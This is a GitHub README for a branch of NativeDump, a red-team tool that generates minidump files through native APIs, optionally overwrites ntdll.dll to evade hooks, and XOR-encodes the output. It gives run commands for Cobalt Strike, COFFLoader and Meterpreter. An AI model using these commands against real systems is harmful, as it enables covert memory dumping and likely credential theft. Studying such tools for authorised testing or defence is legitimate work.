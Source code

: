 # NativeDump - "bof-flavour" branch

This branch implements the same functionality as the main branch using BOF files: 

- Minidump file generation using only NTAPIS
- Overwrite the Ntdll.dll library (Optional)
- XOR encoding (Optional)

You can execute the files using Cobalt Strike, TrustedSec's [COFFLoader](https://github.com/trustedsec/COFFLoader) or Meterpreter's [bofloader module](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-executebof-command.html).

-----------------------------------------

## Cobalt Strike

You can execute the BOF file after importing the aggressor script "nativedump.cna":

```
nativedump <OVERWRITE_TECHNIQUE> <FILENAME> <XOR_KEY>
``` 

The first argument is used for overwriting ntdll.dll:
- "disk": Using a DLL already on disk. The default path is "C:\Windows\System32\ntdll.dll".    
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. The default process is "c:\windows\system32\calc.exe".
  
![bof1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_BOF1.png)

It is also possible to encode the file with a custom XOR key:

![bof1b](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_BOF1b.png)

And then decode it using Decoder.exe in the attack machine:

```
Decoder.exe <INPUT_FILE> <OUTPUT_FILE> <XOR_KEY>
```

![c4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_C4.png)

-----------------------------------------

## COFFLoader

```
COFFLoader64.exe go nativedump_bof.o <OVERWRITE_TECHNIQUE> <FILENAME> <XOR_KEY>
```

![bof2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_BOF2.png)

The arguments must be generated using COFFLoader's [beacon_generate.py script](https://github.com/trustedsec/COFFLoader/blob/main/beacon_generate.py). If you want to use only the first argument the values are:
- "disk": Use the value 09000000050000006469736b00
- "knowndlls": Use the value 0e0000000a0000006b6e6f776e646c6c7300
- "debugproc": Use the value 0e0000000a000000646562756770726f6300
  
Example using the option "disk":

```
COFFLoader64.exe go nativedump_bof.o 09000000050000006469736b00
```

![bof3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_BOF3.png)

--------------------------------------

## Meterpreter's bofloader module

You can run the BOF files in your Meterpreter session after loading the "bofloader" module and using "--format-string z" to use a ntdll overwrite technique. It is important to interact with the session with a timeout around 60 seconds, so the BOF can finish execution:

```
sessions -i <SESSION-ID> --timeout 60
load bofloader
execute_bof nativedump_bof.o --format-string zzz <OVERWRITE_TECHNIQUE> <FILENAME> <XOR_KEY>
```

![bof4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_BOF4.png)
